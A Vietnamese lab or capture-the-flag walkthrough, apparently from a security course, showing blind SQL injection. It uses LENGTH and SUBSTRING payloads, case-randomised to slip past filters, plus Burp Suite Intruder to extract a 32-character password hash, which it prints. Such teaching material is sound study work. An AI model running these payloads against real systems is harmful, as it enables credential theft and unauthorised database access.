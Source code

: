 * Chúng ta nên thay đổi ký tự in hoa in thường ngẫu nhiên của các keyword để tránh bị filter


Đầu tiên chúng ta dùng hàm LENGTH để xác định độ dài của password

```sql
1' anD LEnGth((SeLEcT password From "user" whEre username='minhdz'))='1
```

Đổi ký tự ' ' thành '+' để dễ nhìn hơn

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/8.png" width="666px" align="center">

Set Payload type là Numbers rồi cho chạy từ 1 đến 50

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/9.png" width="666px" align="center">

Attack

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/10.png" width="666px" align="center">

Chúng ta thấy payload "32" có length khác so với các payload khác, đây chính là payload đúng. Xác định được độ dài password là 32

Tiếp theo chúng ta sử dụng hàm SUBSTRING hay SUBSTR (tùy vào cơ sở dữ liệu) để so sánh từng ký tự của password từ đó suy luận ra password 

```sql
1' anD SUBSTRing((SeLEcT password From "user" whEre username='minhdz'),1,1)='a

--or

1' anD SUBStr((SeLEcT password From "user" whEre username='minhdz'),1,1)='a
```

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/11.png" width="666px" align="center">

Set Payload type là Simple list và cho vào 1 list các ký tự từ a-z,0-9 để so sánh với password (như gợi ý của bài)

Attack

Tìm được ý tự đầu tiên của password là '0'

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/12.png" width="666px" align="center">

Ta có thể làm 32 lần SUBSTRING để lấy từng ký tự 1, hoặc dùng Cluster Bomb trong Burp Suite để quét 32 ký tự 1 lúc

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/13.png" width="666px" align="center">

Set payload 1 chạy từ 1-32, payload 2 có các ký tự a-z,0-9. Tổng số payload là 32*36=1152 dùng Burp Suite phiên bản thường quét hơi lâu đấy, Burp của tôi thì chạy nhanh ....burp crack mà :))

Start attack !!

<img src="https://github.com/themingw666/okay/blob/main/Week%208/images/14.png" width="666px" align="center">

Ta thấy ký tự đầu tiên là 0 và ký tự thứ 2 là 1.. từ đó chúng ta ghép lại được password

`0192023a7bbd73250516f069df18b500`













